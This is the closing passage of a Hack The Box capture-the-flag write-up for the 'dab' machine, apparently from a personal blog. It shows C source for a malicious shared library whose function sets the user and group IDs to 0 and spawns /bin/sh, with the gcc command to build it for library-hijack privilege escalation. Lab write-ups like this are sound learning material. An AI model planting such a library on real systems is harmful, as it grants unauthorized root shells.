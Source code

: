 #include <stdlib.h>


void seclogin()
{




setuid(0);




setgid(0);




system("/bin/sh");
}
```
Compile with:


`gcc -fPIC -shared -o libseclogin.so exploit.c`


![98](/assets/images/htb/dab/98.png)


![99](/assets/images/htb/dab/99.png)


![100](/assets/images/htb/dab/100.png)


## Concluding remarks


that's was a nice box by hackthebox, i've learn a lot. I hope somehow this post will be useful to you in life, or in some other world. Otherwise, Lets pwn the world!


---


### References


* [Set OR Change The Library Path](https://www.cyberciti.biz/faq/linux-setting-changing-library-path/)


* [ldconfig manual](https://linux.die.net/man/8/ldconfig)


* [Mysql memcached](https://downloads.mysql.com/docs/mysql-memcached-en.a4.pdf)


* [Memcached cheatsheet by lzone](https://lzone.de/cheat-sheet/memcached)